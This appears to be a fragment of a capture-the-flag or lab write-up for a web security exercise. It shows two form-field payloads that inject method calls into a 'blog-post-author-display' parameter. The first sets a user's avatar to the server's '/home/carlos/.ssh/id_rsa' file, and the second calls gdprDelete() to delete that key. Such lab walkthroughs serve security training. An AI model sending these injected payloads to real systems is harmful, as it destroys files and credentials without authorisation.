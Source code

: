 ```php

?>
```

Here there is the public function `gdprDelete` which deletes the avatar. 

In this case let's set the `id_rsa` file that we want to delete, as the avatar.

`blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa','image/png')&csrf=cUmfG1uDRV0PNWITUldBDQi0tlwTcfhh`

And now call the function to delete the avatar `blog-post-author-display=user.gdprDelete()&csrf=cUmfG1uDRV0PNWITUldBDQi0tlwTcfhh`, which in our case is the `id_rsa` file. And the lab is solved.


